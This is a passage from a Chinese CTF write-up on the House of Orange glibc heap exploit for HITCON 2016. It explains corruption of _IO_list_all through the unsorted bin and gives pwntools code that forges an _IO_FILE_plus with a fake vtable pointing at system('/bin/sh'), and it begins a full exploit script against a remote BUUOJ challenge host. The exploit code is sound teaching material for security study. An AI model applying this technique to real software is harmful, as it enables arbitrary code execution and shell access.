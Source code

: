 malloc时，对unsorted bin进行判断，此时该chunk的size为0x60，不满足要求，就把该chunk放入small bin，并且向bk->fd写入main_arena+0x58，即向_IO_list_all写入main_arena+0x58，此时判断下一个unsorted bin（_IO_list_all），而这里实际上没有chunk，此时会触发错误，此时第一个_IO_FILE_plus结构体为main_arena+0x58，而它不满足条件，就通过_chain调到下一个_IO_FILE_plus结构体，_chain位于0x68偏移的地方，main_arena+0x58+0x68=main_arena+0xc0，就是small bin中0x60大小的地方，这就回到了我们伪造的_IO_FILE_plus结构体
	 
    
    dbg()
	payload = 'a' * 0x400 + p64(0) + p64(0x21) + p32(2) + p32(1) + p64(0)
	fake_file = '/bin/sh\x00'+p64(0x61)#to small bin
	fake_file += p64(0)+p64(io_list_all-0x10)
	fake_file += p64(0) + p64(1)#_IO_write_base < _IO_write_ptr
	fake_file = fake_file.ljust(0xc0,'\x00')
	fake_file += p64(0) * 3
	fake_file += p64(heap_base+0x5E8) #vtable ptr
	fake_file += p64(0) * 2
	fake_file += p64(system)
	payload += fake_file
	edit(len(payload), payload)
	dbg()
修改前
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/e49a2d19a419461eb89c5c1b58bf3f99.png)
修改后
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6487fe320ee4b1880bcd2c64cca274f.png)

之后我们再调用add函数，调用malloc函数，就可以产生错误信息，改变程序执行流程，获得shell
	
	ru("Your choice : ")
	sl('1')
	itr()
### exp
	
	# coding=utf-8
	from pwn import  *
	 
	context(endian='little',os='linux',arch='amd64',log_level='debug') #小端序，linux系统，64位架构,debug
	 
	binary = './houseoforange_hitcon_2016'  
	#sh = process(binary) #连接本地程序
	sh = remote('node4.buuoj.cn',26188) #连接远程程序
	elf = ELF(binary)     
	libc = ELF('../../libc-2.23.so--64')  
	
	#libc-2.23.so--64
	one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
	one_gadget[0] = 0x45216
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims  :sh.recvuntil(delims )
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg=lambda address,data:log.success('%s: '%(address)+hex(data))
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	def add(size, content, price='2', color='1'):
	    ru("Your choice : ")
	    sl('1')
	    ru("Length of name :")
